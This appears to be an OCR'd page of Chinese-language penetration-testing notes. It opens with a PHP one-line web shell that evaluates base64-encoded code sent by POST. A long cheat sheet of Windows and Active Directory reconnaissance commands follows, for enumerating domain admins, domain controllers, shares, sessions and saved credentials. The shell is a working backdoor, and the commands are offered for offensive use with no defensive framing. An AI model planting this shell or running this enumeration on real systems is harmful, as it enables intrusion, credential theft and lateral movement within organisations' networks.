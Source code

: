 > > ```
> > php_make @eval(call_user_func_array(base64_decode,array($_POST[action])));
> > ```
>
> 用回调函数，第一个为函数名，二个为传的参数
>
> ### 前期信息收集
>
> > query user || qwinsta 查看当前在线用户
> >
> > net user  查看本机用户
> >
> > net user /domain 查看域用户
> >
> > net view & net group "domain computers" /domain 查看当前域计算机列表 第二个查的更多
> >
> > net view /domain 查看有几个域
> >
> > net view \\\\dc  查看 dc 域内共享文件
> >
> > net group /domain 查看域里面的组
> >
> > net group "domain admins" /domain 查看域管
> >
> > net localgroup administrators /domain  /这个也是查域管，是升级为域控时，本地账户也成为域管
> >
> > net group "domain controllers" /domain 域控
> >
> > net time /domain 
> >
> > net config workstation  当前登录域 - 计算机名 - 用户名
> >
> > net use \\\\域控(如pc.xx.com) password /user:xxx.com\username 相当于这个帐号登录域内主机，可访问资源
> >
> > ipconfig
> >
> > systeminfo
> >
> > tasklist /svc
> >
> > tasklist /S ip /U domain\username /P /V 查看远程计算机 tasklist
> >
> > net localgroup administrators && whoami 查看当前是不是属于管理组
> >
> > netstat -ano
> >
> > nltest /dclist:xx  查看域控
> >
> > whoami /all 查看 Mandatory Label uac 级别和 sid 号
> >
> > net sessoin 查看远程连接 session (需要管理权限)
> >
> > net share   共享目录
> >
> > cmdkey /l  查看保存登陆凭证
> >
> > echo %logonserver%  查看登陆域
> >
> > spn –l administrator spn 记录
> >
> > set  环境变量
> >
> > dsquery server - 查找目录中的 AD DC/LDS 实例
> >